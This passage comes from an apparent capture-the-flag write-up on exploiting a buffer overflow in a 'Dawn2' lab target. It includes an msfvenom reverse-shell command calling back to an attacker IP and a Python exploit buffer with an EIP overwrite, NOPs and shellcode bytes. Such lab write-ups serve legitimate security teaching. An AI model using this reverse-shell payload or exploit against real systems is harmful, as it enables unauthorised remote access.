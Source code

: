 Anyways... let's try it out on our linux target, replacing the SHELL payload with 
```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.70 LPORT=1985 -f py -v SHELL -b "\x00"```

![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-Failed.png)

And it doesn't work... In my limited experience SEH exploits can be tricky - they're pretty dependent on alot of environmental factors, even things like the directory the program is in can affect the execution flow we're trying to hijack (As SEH is an OS thing, not a thing with the program itself... I think... I'm pretty sure lol), remember how the server would most likely be running on WINE? the memory addresses in the POP POP RET instruction we picked most likely do not reside in the same memory space as the one running on our target box and especially with how tight I placed my jumps would definitely screw up where the instruction pointer lands. Or we may have made a mistake somewhere along the line. **!!Something we should all consider when troubleshooting something - The amount of people I've met who automatically blame their computers or whatever is too damn high!!** 

Uhh... but for now.. let's assume we haven't made a mistake. We're faced with two possible options, one where we play with our jumps and nops and hope it hits or look into egg hunting techniques as a potential solution. (Though after finishing this writeup - I did overlook that SafeSEH wasn't enabled and I may have not needed a POP POP RET instruction but mistakes are how we learn!)

# **Or...** 
What if we can create a crash environment where we have control of the instruction pointer without triggering the SEH?

Might not work but the former options are kind of annoying and this would be interesting to see plus the app is buggy enough that it could be a possibility.

I know that anything after 925 bytes the exploit will trigger the SEH and overflow it. Let's pick a random value once again... 750 sounds good, it reminds me of the price of two street hotdogs here in Toronto (one with cheese).

Going through the whole cycle of generating a unique string, finding the offset and doing the "x41x42x43" dance

![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-Vanilla.png)

We have a regular buffer overflow scenario! Where the R/ESP register is pointing nicely to our shellcode at the time of the crash with plenty of space to play with and right after our EIP address as well.

Do a search for a suitable jump or call esp address

![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-VanillaCALLESP.png)

Nice, it's pretty much game over now! And after figuring out the appropriate padding and inserting a windows payload for the poc.

```
        CRASH = b"\x41" * 272
        EIP = b"\xBA\x64\x59\x34"
        SHELL =  b""
        SHELL += b"\xb8\xa1\x78\x37\xe4\xda\xce\xd9\x74\x24\xf4\x5a"
...
        SHELL += b"\xd3\xf9\x97\x84\xd6\x46\x10\x75\xab\xd7\xf5\x79"
        SHELL += b"\x18\xd7\xdf"
        NOPS = b"\x90" * 20
        FILLER = b"\x43" * (474 - (len(SHELL) + len(NOPS)))
        TERMINATE = b"\x00"
        buffer = CRASH + EIP + NOPS + SHELL + FILLER + TERMINATE
```


```